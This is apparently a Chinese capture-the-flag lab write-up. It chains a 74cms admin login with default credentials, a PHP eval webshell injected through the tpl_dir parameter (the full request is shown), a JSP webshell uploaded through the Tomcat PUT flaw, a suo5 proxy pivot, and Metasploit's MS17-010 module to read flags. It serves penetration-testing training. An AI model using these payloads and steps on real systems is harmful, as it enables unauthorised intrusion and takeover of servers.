



# lab02

:::info

场景介绍

> 重生之我是渗透测试工程师，被公司派遣去测试某网络的安全性。你的目标是成功获取所有服务器的权限，以评估网络安全状况。
>
> - 信息搜集
> - 横向移动
> - 权限维持
> - 权限提升

:::

## 入口点

```plaintext
http://192.168.10.10/
```

## 资产梳理

|       IP      |     Hostname    |
| :-----------: | :-------------: |
| 192.168.10.10 | DESKTOP-JFB57A8 |
| 192.168.10.20 |     cyberweb    |

## 入口机探测

由于入口点无法直接访问，尝试扫描端口

```shell
┌──(randark㉿kali)-[~/tools]
└─$ ./fscan_1.8.4/fscan -h 192.168.10.10

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
192.168.10.10:139 open
192.168.10.10:135 open
192.168.10.10:445 open
192.168.10.10:808 open
192.168.10.10:3306 open
[*] alive ports len is: 5
start vulscan
[*] NetInfo 
[*]192.168.10.10
   [->]DESKTOP-JFB57A8
   [->]192.168.10.10
[*] WebTitle http://192.168.10.10:808  code:200 len:20287  title:骑士PHP高端人才系统(www.74cms.com)
已完成 5/5
[*] 扫描结束,耗时: 31.994344872s
```

## DESKTOP-JFB57A8 - 74cms webshell

尝试访问 `http://192.168.10.10:808/`


在页脚发现框架指纹 `Powered by 74cms v4.2.111`

在网上可以查到漏洞信息 [骑士 CMS01 74cms v4.2.111 后台 getshell 漏洞复现\_查看骑士 cms 的版本 - CSDN 博客](https://blog.csdn.net/m0_63253040/article/details/127041028)

访问 `http://192.168.10.10:808/index.php?m=admin&c=index&a=login` 进入后台登陆界面


使用 `admin:admin123456` 成功登陆后台



使用网上给出的 payload 方案，在 `tpl_dir` 参数中注入一句话

```plaintext
GET /index.php?m=admin&c=tpl&a=set&tpl_dir=','a',eval($_POST['cmd']),' HTTP/1.1
Host: 8b6402a9-5fae-4e93-89b9-713c9db37bec.challenge.qsnctf.com:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://8b6402a9-5fae-4e93-89b9-713c9db37bec.challenge.qsnctf.com:8081/index.php?m=admin&c=tpl&a=index
Cookie: think_template=default; PHPSESSID=4u4h93saveilc5fmndtei8b0e5; think_language=zh-CNthink_template=default
Upgrade-Insecure-Requests: 1

```



即可将一句话 webshell 注入在 `http://192.168.10.10:808/Application/Home/Conf/config.php`


是 `system` 权限，但是没有多层内网


## flag - 1

在 `C:\` 中可以看到 `flag.txt\` 文件


## 第一层内网扫描

直接使用 fscan 进行扫描

```shell
┌──(randark㉿kali)-[~]
└─$ sudo ./tools/fscan_1.8.4/fscan -h 192.168.10.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 192.168.10.10   is alive
(icmp) Target 192.168.10.20   is alive
(icmp) Target 192.168.10.233  is alive
[*] Icmp alive hosts len is: 3
192.168.10.10:135 open
192.168.10.20:139 open
192.168.10.10:445 open
192.168.10.233:8080 open
192.168.10.20:135 open
192.168.10.20:445 open
192.168.10.10:139 open
192.168.10.233:22 open
192.168.10.10:808 open
192.168.10.10:3306 open
192.168.10.20:8080 open
192.168.10.10:7680 open
192.168.10.20:8009 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo 
[*]192.168.10.10
   [->]DESKTOP-JFB57A8
   [->]192.168.10.10
[*] WebTitle https://192.168.10.233:8080 code:404 len:19     title:None
[*] NetBios 192.168.10.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.10.20:8080 code:200 len:11432  title:Apache Tomcat/8.5.19
[+] PocScan http://192.168.10.20:8080 poc-yaml-iis-put-getshell 
[*] WebTitle http://192.168.10.10:808  code:404 len:1331   title:系统发生错误
[+] PocScan http://192.168.10.20:8080 poc-yaml-tomcat-cve-2017-12615-rce 
```

## cyberweb IIS put webshell

既然确认存在有 `poc-yaml-iis-put-getshell` 漏洞，就可以直接利用

先看一下网站框架

```shell
┌──(randark㉿kali)-[~]
└─$ whatweb http://192.168.10.20:8080
http://192.168.10.20:8080 [200 OK] Country[RESERVED][ZZ], HTML5, IP[192.168.10.20], Title[Apache Tomcat/8.5.19]
```

上传一个冰蝎的 `shell.jsp` webshell 上去


成功使用冰蝎连接


## flag - 2

老地方就能看到 `flag.txt` 文件


## cyberweb 环境探测

获取一下基本信息

```shell
C:\Program Files\Apache Software Foundation\Tomcat 8.5>whoami
whoami
nt authority\network service

C:\Program Files\Apache Software Foundation\Tomcat 8.5>ipconfig /all
ipconfig /all

Windows IP 配置

   主机名  . . . . . . . . . . . . . : cyberweb
   主 DNS 后缀 . . . . . . . . . . . : cyberstrikelab.com
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否
   DNS 后缀搜索列表  . . . . . . . . : cyberstrikelab.com

以太网适配器 以太网实例 3:

   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Realtek RTL8139C+ Fast Ethernet NIC #3
   物理地址. . . . . . . . . . . . . : 90-19-DB-66-3A-30
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::c5d6:2ae9:74d9:bdaf%17(首选) 
   IPv4 地址 . . . . . . . . . . . . : 192.168.10.20(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.10.233
   DHCPv6 IAID . . . . . . . . . . . : 440426127
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-2E-FA-9A-4E-52-54-00-C5-A8-C7
   DNS 服务器  . . . . . . . . . . . : 114.114.114.114
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用

以太网适配器 以太网实例 0:

   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Realtek RTL8139C+ Fast Ethernet NIC #2
   物理地址. . . . . . . . . . . . . : 60-D5-CB-54-D4-50
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
   本地链接 IPv6 地址. . . . . . . . : fe80::fca5:e3a0:3443:fd04%16(首选) 
   IPv4 地址 . . . . . . . . . . . . : 192.168.20.20(首选) 
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.20.1
   DHCPv6 IAID . . . . . . . . . . . : 380666480
   DHCPv6 客户端 DUID  . . . . . . . : 00-01-00-01-2E-FA-9A-4E-52-54-00-C5-A8-C7
   DNS 服务器  . . . . . . . . . . . : 192.168.20.30
   TCPIP 上的 NetBIOS  . . . . . . . : 已启用

隧道适配器 isatap.{09D8209C-F6E4-442E-A3FF-07A1215FB78C}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Microsoft ISATAP Adapter
   物理地址. . . . . . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是

隧道适配器 isatap.{C78DF76E-FDAF-478D-B00B-66D785DC7668}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . : 
   描述. . . . . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   物理地址. . . . . . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP 已启用 . . . . . . . . . . . : 否
   自动配置已启用. . . . . . . . . . : 是
```

好消息，双网卡的机器

上传个fscan扫一下二层内网的资产

```shell
192.168.20.30:88 open
192.168.20.20:8080 open
192.168.20.30:445 open
192.168.20.20:445 open
192.168.20.30:139 open
192.168.20.20:139 open
192.168.20.30:135 open
192.168.20.20:135 open
192.168.20.20:8009 open
[*] NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.20.20:8080 code:200 len:11432  title:Apache Tomcat/8.5.19
[*] NetInfo 
[*]192.168.20.30
   [->]WIN-7NRTJO59O7N
   [->]192.168.20.30
[+] MS17-010 192.168.20.30 (Windows Server 2008 R2 Standard 7600)
[+] PocScan http://192.168.20.20:8080 poc-yaml-iis-put-getshell 
[+] PocScan http://192.168.20.20:8080 poc-yaml-tomcat-cve-2017-12615-rce 
```

偷懒，上传个 suo5 正向代理



## flag - 3

直接使用 msf 来打

```shell
msf > use auxiliary/admin/smb/ms17_010_command
msf auxiliary(admin/smb/ms17_010_command) > set rhost 192.168.20.30
rhost => 192.168.20.30
msf auxiliary(admin/smb/ms17_010_command) > set command type C:\\flag.txt
command => type C:\flag.txt
msf auxiliary(admin/smb/ms17_010_command) > exploit 
[*] 192.168.20.30:445     - Target OS: Windows Server 2008 R2 Standard 7600
[*] 192.168.20.30:445     - Built a write-what-where primitive...
[+] 192.168.20.30:445     - Overwrite complete... SYSTEM session obtained!
[+] 192.168.20.30:445     - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.20.30:445     - Getting the command output...
[*] 192.168.20.30:445     - Executing cleanup...
[+] 192.168.20.30:445     - Cleanup was successful
[+] 192.168.20.30:445     - Command completed successfully!
[*] 192.168.20.30:445     - Output for "type C:\flag.txt":

go-flag{uhzy7lknuXsJtB3Z}

[*] 192.168.20.30:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
